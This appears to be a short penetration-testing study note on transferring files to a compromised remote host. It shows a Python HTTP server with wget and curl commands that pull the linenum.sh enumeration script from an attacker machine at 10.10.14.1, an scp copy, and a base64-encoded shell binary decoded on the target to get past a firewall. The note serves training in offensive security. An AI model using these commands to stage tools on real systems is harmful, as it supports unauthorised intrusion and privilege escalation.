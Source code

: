 1. Method -> running a [Python HTTP server](https://developer.mozilla.org/en-US/docs/Learn/Common_questions/set_up_a_local_testing_server) on our machine and then using `wget` or `cURL` to download the file on the remote host.
2. 
# Using [[wget]]
#tool 
Locally:
```pug
cd /tmp
python3 -m http.server 8000 
```
Remote host:
```pug
wget http://10.10.14.1:8000/linenum.sh
curl http://10.10.14.1:8000/linenum.sh -o linenum.sh
```

# Using `SCP`
-- needs ssh user creds
```pug
scp linenum.sh user@remotehost:/tmp/linenum.sh
```

# Using Base64 when R.H. has firewall
```pug
base64 shell -w 0
```
Other device
```pug
echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
```


# Validating File Transfers
```pug
file shell
```
Check hash: (compare local and on remote host)
```pug
md5sum shell
```
